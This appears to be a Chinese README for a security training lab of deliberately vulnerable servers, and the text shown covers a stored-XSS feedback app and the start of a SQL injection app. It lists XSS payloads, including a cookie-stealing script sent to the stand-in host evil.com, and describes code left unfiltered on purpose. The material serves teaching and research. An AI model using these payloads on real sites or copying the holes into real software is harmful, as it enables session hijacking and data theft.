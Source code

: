 # 🎯 攻击服务器完整功能说明

## 🌟 概述

本系统集成了8个专业攻击服务器，模拟真实网络攻击场景，用于安全意识培训和漏洞研究。每个服务器都有独特的攻击机制和学习价值。

---

## 🌐 XSS跨站脚本服务器 (端口5001)

### 🎯 核心功能
**模拟企业内部反馈系统，存在存储型XSS漏洞**

### 🔧 技术原理
- **漏洞类型**: 存储型XSS (Stored Cross-Site Scripting)
- **攻击向量**: 用户反馈表单未过滤恶意脚本
- **实现机制**: Flask + SQLite，故意不过滤HTML输入

### 📋 实际演示内容
1. **正常使用**: 员工提交反馈意见
2. **攻击场景**: 注入恶意JavaScript代码
3. **攻击载荷**: 
   ```html
   <script>alert('XSS攻击成功！')</script>
   <script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
   <img src=x onerror="fetch('/api/steal?data='+document.cookie)">
   ```

### 🎓 学习价值
- **理解XSS原理**: 脚本注入如何绕过浏览器安全策略
- **会话劫持**: 通过document.cookie获取用户会话
- **数据窃取**: 模拟敏感信息泄露过程
- **防御措施**: 输入验证、输出编码、CSP策略

### 💥 攻击效果展示
- Cookie信息窃取
- 用户浏览器控制
- 页面内容篡改
- 键盘记录模拟

---

## 💾 SQL注入服务器 (端口5002)

### 🎯 核心功能
**模拟员工信息查询系统，存在SQL注入漏洞**

### 🔧 技术原理
- **漏洞类型**: SQL注入 (SQL Injection)
- **攻击向量**: 员工ID查询参数未过滤
- **实现机制**: Flask + SQLite，动态SQL拼接
